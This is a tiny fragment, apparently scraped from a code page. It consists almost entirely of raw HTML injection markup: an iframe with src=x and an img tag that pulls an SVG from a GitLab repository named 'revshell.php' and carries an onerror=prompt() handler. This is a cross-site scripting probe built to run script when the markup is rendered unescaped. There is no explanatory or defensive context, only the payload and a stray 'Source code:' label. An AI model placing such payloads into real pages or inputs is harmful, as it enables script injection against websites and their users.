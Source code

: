 <iframe src=x> </iframe>
<img src="https://gitlab.com/professor401/revshell.php/-/raw/main/abcd.svg" onerror=prompt()>
